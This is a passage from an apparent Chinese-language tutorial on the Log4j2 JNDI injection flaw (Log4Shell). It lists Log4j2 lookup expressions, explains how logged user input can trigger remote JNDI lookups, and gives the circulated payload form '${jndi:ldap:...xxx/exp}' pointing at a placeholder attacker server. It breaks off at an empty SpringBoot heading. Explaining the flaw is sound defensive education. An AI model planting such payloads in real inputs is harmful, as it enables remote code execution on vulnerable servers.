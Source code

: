 



常见解析：

```bash
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s}
${log4j}
${main}
${name}
${marker}
${spring}
${sys:logPath}
${web:rootDir}
```



而其中的**JNDI**（Java Naming and Directory Interface, Java命名和目录接口）就是本次的主题了，t它提供一个目录系统，并将服务与对象关联起来，可以使用名称来访问对象。而log4j 2中JNDI解析未作限制，可以直接访问到远程对象，如果是自己的服务器还好说，那如果访问到黑客的服务器.......

也就是当记录日志的一部分是用户可控时，就可以构造恶意字符串使服务器记录日志时调用JNDI访问恶意对象，也就是流传出的payload构成：

`${jndi:ldap:xxx.xxx.xxx.xxx:xxxx/exp}`



其实JNDI通过SPI（Service Provider Interface）封装了多个协议，包括LDAP、RMI、DNS、NIS、NDS、RMI、CORBA。













## SpringBoot集成log4j2










